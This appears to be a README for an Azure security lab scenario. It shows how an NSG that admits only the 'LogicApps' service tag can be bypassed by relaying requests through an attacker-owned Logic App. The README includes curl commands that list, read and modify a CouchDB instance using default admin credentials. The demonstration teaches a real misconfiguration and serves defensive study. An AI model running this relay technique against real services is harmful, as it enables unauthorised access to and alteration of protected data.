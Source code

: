 # Logic Apps

| Scenario ID | Service Tag |
| ----------- | ----------- |
| `logicapp`  | `LogicApps` |

## Setup

Setup of this scenario follows the standard setup steps outlined in the [main README](../README.md#Deployment).

## Scenario

In this scenario we're looking at taking advantage of the `LogicApps` service tag to access a REST API. I've used CouchDB as an example service, but this should be applicable to any HTTP service.

![Logic App standard diagram](../img/diag/logicapp/standard.svg)

In the target organisation, CouchDB is deployed to a linux virtual machine with a public IP address. The associated network interface has a Network Security Group (NSG) attached permitting inbound traffic from the `LogicApps` service tag only.

![Logic App inbound network security group](../img/logicapp_nsg.png)

Based on this configuration, if an attacker tried to interact with the CouchDB REST API directly, they would be blocked due to matching the catch-all deny inbound rule on the NSG.

Instead, the attacker could set up a logic app within their own Azure environment and use this to interact with the CouchDB deployment. There are definitiely a few ways to approach this, but I decided to go for an HTTP relay. This means that we can call the logic app and interact with CouchDB in a similar manner to interacting with it directly.

![Logic App HTTP relay diagram](../img/diag/logicapp/attack.svg)

![Logic App flow](../img/logicapp_flow.png)

Due to some limitations in how we can configure the logic app tiggers, we need to set a few headers in our request to define the upstream API that we're calling.

These are as follows:

| Header                   | Value                                                                                                 |
| ------------------------ | ----------------------------------------------------------------------------------------------------- |
| `x-target-uri`           | The target URI of the upstream API, optionally including the port and any query parameters            |
| `x-target-method`        | The HTTP method to call the upstream API with e.g. `POST`                                             |
| `x-target-authorization` | If the upstream API requires the `Authorization` header to be set, you'll need to set it here instead |

Any other headers that you set will be passed to the upstream API, with the exclusion of the `Authorization` header. If you require this header for the upstream API, use the `x-target-authorization` header insteead. This will be translated back to the correct header name by the logic app.

For this example, we're just going to be using HTTP basic authentication, this normally works by setting the `Authorization` header constucted as follows:

```plain
Basic <Base64 encoding of username:password>
```

However, as noted above, we can't use the `Authorization` header and instead we'll need to set it as the `x-target-authorization` header value.

You can find any of the URIs & credentials for this scenario in the output of `terraform apply` e.g.:

```plain
logicapp = {
  "cdb_password" = "admin"
  "cdb_username" = "admin"
  "relay_url" = "https://prod-03.uksouth.logic.azure.com:443/workflows/bef08[[REDACTED]]"
  "target_url" = "http://statgtlaue1xcouchdbvm.uksouth.cloudapp.azure.com:5984/}"
}
```

We can now construct our request and try and call the API. In this example, we're querying the API for a list of databases.

```sh
LOGIC_APP_URI="https://prod-03.uksouth.logic.azure.com:443/workflows/bef08[[REDACTED]]"
AUTH_HEADER="x-target-authorization: Basic $(echo -n admin:admin | base64)"

curl -X POST -H "x-target-method: GET" -H $AUTH_HEADER -H "x-target-uri: http://statgtlaue1xcouchdbvm.uksouth.cloudapp.azure.com:5984/_all_dbs" $LOGIC_APP_URI -d "" | jq
```

There are a couple of things to point out for the above. All of our calls to the logic app need to be `POST` requests as set by `-X POST`. We need to set the value of `x-target-method` to the method that we wish to call the upstream API with. In the above example, this is `GET`.

You may have also noticed that we have an empty body defined. When we're making a request that doesn't require a body to be sent to the upstream API (e.g. for a `GET` request), the logic app will complain about the lack of the `Content-Length` header. We can either set this header to `0`, or include an empty body and allow `curl` to set that header for us.

With the above request, we get the following json in the response body:

```json
[
  "_global_changes",
  "_replicator",
  "_users",
  "product_catalogue"
]
```

We can interact with the service further, such as retrieving specific documents from the database:

```sh
curl -X POST -H "x-target-method: GET" -H $AUTH_HEADER -H "x-target-uri: http://statgtlaue1xcouchdbvm.uksouth.cloudapp.azure.com:5984/product_catalogue/864bce91fad62b3c4ea3d67c7b000ddc" $LOGIC_APP_URI -d "" | jq 

{
  "_id": "864bce91fad62b3c4ea3d67c7b000ddc",
  "_rev": "2-119ed92decb681ff80763917277e6470",
  "name": "super cool product",
  "cost_price": 3,
  "sale_price": 9,
  "vendor": "ABC Corp",
  "description": "this is a cheaper super cool product"
}
```

And can use other request methods such as `POST` or `PUT` to modify database contents:

```sh
curl -X POST -H "x-target-method: PUT" -H $AUTH_HEADER -H "x-target-uri: http://statgtlaue1xcouchdbvm.uksouth.cloudapp.azure.com:5984/product_catalogue/864bce91fad62b3c4ea3d67c7b000ddc" -H "content-type: application/json" $LOGIC_APP_URI  -d '{"_rev": "2-119ed92decb681ff80763917277e6470", "name": "super cool product", "cost_price": 4, "sale_price": 9, "vendor": "ABC Corp", "description": "this is a cheaper super cool product"}' | jq

{
  "ok": true,
  "id": "864bce91fad62b3c4ea3d67c7b000ddc",
  "rev": "3-5355af3be491be4398e50a9f0b263b8c"
}
```
